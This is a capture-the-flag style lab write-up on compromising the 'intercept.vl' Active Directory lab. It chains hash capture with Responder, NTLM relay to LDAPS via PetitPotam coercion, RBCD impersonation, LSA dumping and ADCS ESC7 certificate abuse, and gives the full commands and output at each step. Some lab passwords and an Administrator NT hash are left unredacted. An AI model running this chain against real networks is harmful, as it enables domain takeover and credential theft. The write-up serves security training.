



## Before Starting

```console
Me > 10.8.2.163
Target > 10.10.152.69 ; 10.10.152.70 
```

```console
Starting Nmap 7.9 ( https://nmap.org ) at 2023-07-01 17:03 CEST
Nmap scan report for dc01.intercept.vl (10.10.152.69)
Host is up (0.024s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-09 14:02:25Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.intercept.vl
| Not valid before: 2023-06-27T13:28:30
|_Not valid after:  2024-06-26T13:28:30
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.intercept.vl
| Not valid before: 2023-06-27T13:28:30
|_Not valid after:  2024-06-26T13:28:30
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.intercept.vl
| Not valid before: 2023-06-27T13:28:30
|_Not valid after:  2024-06-26T13:28:30
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.intercept.vl
| Not valid before: 2023-06-27T13:28:30
|_Not valid after:  2024-06-26T13:28:30
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: INTERCEPT
|   NetBIOS_Domain_Name: INTERCEPT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: intercept.vl
|   DNS_Computer_Name: DC01.intercept.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-07-09T14:03:05+00:00
| ssl-cert: Subject: commonName=DC01.intercept.vl
| Not valid before: 2023-06-27T13:12:41
|_Not valid after:  2023-12-27T13:12:41
|_ssl-date: 2023-07-09T14:03:44+00:00; -1s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
 
Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2023-07-09T14:03:07
|_  start_date: N/A
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.28 seconds
 
Nmap scan report for ws01.intercept.vl (10.10.152.70)
Host is up (0.020s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WS01.intercept.vl
| Not valid before: 2023-06-27T13:11:58
|_Not valid after:  2023-12-27T13:11:58
| rdp-ntlm-info:
|   Target_Name: INTERCEPT
|   NetBIOS_Domain_Name: INTERCEPT
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: intercept.vl
|   DNS_Computer_Name: WS01.intercept.vl
|   DNS_Tree_Name: intercept.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2023-07-01T15:04:44+00:00
|_ssl-date: 2023-07-01T15:05:24+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 
Host script results:
| smb2-time:
|   date: 2023-07-01T15:04:51
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
 
Post-scan script results:
| clock-skew:
|   -1s:
|     10.10.152.69 (dc01.intercept.vl)
|_    10.10.152.70 (ws01.intercept.vl)
```
# Relay attack with responder 

```bash
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
SMB         10.10.152.69    445    DC01             [-] intercept.vl\toto:toto STATUS_LOGON_FAILURE 

netexec smb 10.10.152.70 -u 'toto' -p 'toto'
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\toto:toto (Guest)
```
As we can see, we have guest session on WS01, let's connect : 



So there is potentially a user activity in this share, let's try to put some file using : [this](https://github.com/Greenwolf/ntlm_theft)

Put all files in the directory where is the readme.txt and set a responder like this :

```bash
Responder.py -I tun0
```



Now use hashcat to crack the hash like this : 

```bash
hashcat --hash-type 5600 --attack-mode 0 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
netexec smb 10.10.152.70 -u 'KATHRYN.SPENCER' -p 'REDACTED'
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\KATHRYN.SPENCER:REDACTED
```
Nice !! (it's also a valid user on the DC btw)

# Relay, Coerce to perform RBCD

After many many enumeration we can find that WEBDAV is enabled on WS01, MAQ is at 10 and ldap signing is disabled :

```bash
netexec smb 10.10.152.70 -u 'KATHRYN.SPENCER' -p 'REDACTED' -M webdav
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\KATHRYN.SPENCER:REDACTED 
WEBDAV      10.10.152.70    445    WS01             WebClient Service enabled on: 10.10.152.70
```
```bash
netexec ldap 10.10.152.69 -u 'KATHRYN.SPENCER' -p 'Chocolate1' -M maq
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\KATHRYN.SPENCER:Chocolate1 
MAQ         10.10.152.69    389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.152.69    389    DC01             MachineAccountQuota: 10
```

```bash
netexec ldap 10.10.152.69 -u 'KATHRYN.SPENCER' -p 'Chocolate1' -M ldap-checker
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\KATHRYN.SPENCER:Chocolate1 
LDAP-CHE... 10.10.152.69    389    DC01             LDAP Signing NOT Enforced!
LDAP-CHE... 10.10.152.69    389    DC01             LDAPS Channel Binding is set to "NEVER"
```
So using WEBDAV Coercion, which use HTTP so NTLM authentication, we can relay authentication to the DC.

Thanks to this we can perform a RBCD attack

[Here a good link](https://www.bussink.net/rbcd-webclient-attack/)

First we need to create a DNS entry that points to our host, let's use Responder and DnsTool for that :

```bash
# modify the config of Responder like that :
; Servers to start
SQL      = On
SMB      = Off
RDP      = On
Kerberos = On
FTP      = On
POP      = On
SMTP     = On
IMAP     = On
HTTP     = Off
HTTPS    = On
DNS      = On
LDAP     = On
DCERPC   = On
WINRM    = On
SNMP     = Off
MQTT     = On

# Now start responder
Responder.py -I tun0

# And add a dns entry
dnstool.py -u 'intercept.vl\Kathryn.Spencer' -p REDACTED --action add --record WIN-4Q7AYHZHKNX.intercept.vl --data 10.8.2.163 --type A 10.10.152.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Nice now let's start : 

```bash
# Start ntlmrelayx 
ntlmrelayx.py -t ldaps://10.10.152.69 --delegate-access -smb2support

# And coerce with petitpotam
petitpotam.py -d "intercept.vl" -u "KATHRYN.SPENCER" -p "REDACTED" WIN-4Q7AYHZHKNX@80/randomfile.txt 10.10.152.70
```


```bash
nxc smb 10.10.152.70 -u 'NXLJJEHV$' -p '8Bi}R+w)-I1*:A,'
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\NXLJJEHV$:8Bi}R+w)-I1*:A,
```

Nice !! Let's use this machine account to impersonate Administrator and DCSYNC :

```bash
getTGT.py -dc-ip "DC01.intercept.vl" "intercept.vl"/'NXLJJEHV$':'8Bi}R+w)-I1*:A,' -debug

getST.py -k -no-pass -spn host/WS01.intercept.vl 'intercept.vl'/'NXLJJEHV$' -dc-ip 10.10.152.69 -impersonate Administrator

nxc smb 10.10.152.70 --use-kcache -k                           
SMB         10.10.152.70    445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.152.70    445    WS01             [+] intercept.vl\Administrator from ccache (admin)

nxc smb 10.10.152.70 --use-kcache -k --lsa
```
Dumping the LSA give to us the password of Simon.Bowen :

Let's try his creds on the DC and see in bloodhound if he have any interesting rights :

```bash
nxc ldap 10.10.152.69 -u 'Simon.Bowen' -p 'REDACTED'
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\Simon.Bowen:REDACTED 

cme ldap 10.10.152.69 -u 'Simon.Bowen' -p 'REDACTED' --bloodhound -ns 10.10.152.69 -c all
SMB         10.10.152.69    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\Simon.Bowen:REDACTED 
LDAP        10.10.152.69    389    DC01             Resolved collection methods: objectprops, localadmin, dcom, psremote, session, container, rdp, group, trusts, acl
LDAP        10.10.152.69    389    DC01             Done in 00M 07S
LDAP        10.10.152.69    389    DC01             Compressing output into /root/.cme/logs/DC01_10.10.152.69_2024-09-18_223400bloodhound.zip
```


So Simon.Bowen is in HelpDesk group and HelpDesk group have GenericAll Rights on CA-MANAGERS group, keep this information :

# ESC7 Attack

Now if we do some ADCS enumeration like that :

```bash
certipy find -u 'Simon.Bowen' -p 'REDACTED' -vulnerable -stdout -dc-ip 10.10.152.69
```
We can see this :


So CA-MANAGERS group has manageCA permissions, thanks to that we can change CA's settings to enable SAN its a ESC7 attack [ESC7 Attack](https://www.thehacker.recipes/ad/movement/adcs/access-controls#esc7-abusing-subca)

First, let's add Simon.Bowen to the CA-MANAGERS group :

```bash
bloodyAD --host "10.10.152.69" -d "intercept.vl" -u "Simon.Bowen" -p "REDACTED" add groupMember "CA-MANAGERS" "Simon.Bowen" 
[+] Simon.Bowen added to CA-MANAGERS
```
Now we can list templates like that :

```bash
certipy ca -u "Simon.Bowen@WS01.intercept.vl" -p "REDACTED" -dc-ip "10.10.152.69" -ca 'intercept-DC01-CA' -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'intercept-DC01-CA':
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    SubCA
    Administrator
```
SubCA is enabled 

```console
When it is not possible to restart the CertSvc service to enable the EDITF_ATTRIBUTESUBJECTALTNAME2 attribute, the SubCA built-in template can be used, along with a ManageCA right.

The SubCA template is vulnerable to the ESC1 attack, but only Domain Admins and Enterprise Admins can enroll in it. If a standard user tries to enroll in it, he will encounter a CERTSRV_E_TEMPLATE_DENIED errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the ManageCA and ManageCertificates rights to validate the failed request anyway. The user can then retrieve the issued certificate by specifying the same ID.
```
Let's start the exploit :

```bash
certipy ca -u "Simon.Bowen@intercept.vl" -p "REDACTED" -dc-ip "10.10.152.69" -ca 'intercept-DC01-CA' -enable-template 'SubCA'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'intercept-DC01-CA'
```

```bash
certipy ca -u "Simon.Bowen@intercept.vl" -p "REDACTED" -dc-ip "10.10.152.69" -ca 'intercept-DC01-CA' -add-officer 'Simon.Bowen'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Simon.Bowen' on 'intercept-DC01-CA'
```

```bash
certipy req -username 'Simon.Bowen@intercept.vl' -password 'REDACTED' -dc-ip '10.10.152.69' -ca 'intercept-DC01-CA' -template SubCA -upn 'Administrator@intercept.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 5
Would you like to save the private key? (y/N) y
[*] Saved private key to 5.key
[-] Failed to request certificate

certipy ca -ca 'intercept-DC01-CA' -username 'Simon.Bowen@intercept.vl' -password 'REDACTED' -dc-ip '10.10.152.69' -issue-request 5 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate

certipy req -username 'Simon.Bowen@intercept.vl' -password 'REDACTED' -dc-ip '10.10.152.69' -ca 'intercept-DC01-CA' -retrieve 5
[*] Rerieving certificate with ID 5
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator@intercept.vl'
[*] Certificate has no object SID
[*] Loaded private key from '5.key'
[*] Saved certificate and private key to 'administrator.pfx'
```
And get the hash of the Administrator :

```bash
ertipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'intercept.vl' -dc-ip 10.10.152.69  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@intercept.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@intercept.vl': aad3b435b51404eeaad3b435b51404ee:ad9[...]1f

nxc ldap 10.10.152.69 -u 'Administrator' -H 'ad95c338a6cc5729ae7390acbe0ca91f'     
SMB         10.10.152.69    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
LDAP        10.10.152.69    389    DC01             [+] intercept.vl\Administrator:ad9[...]1f (admin)
```


Nice ! if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'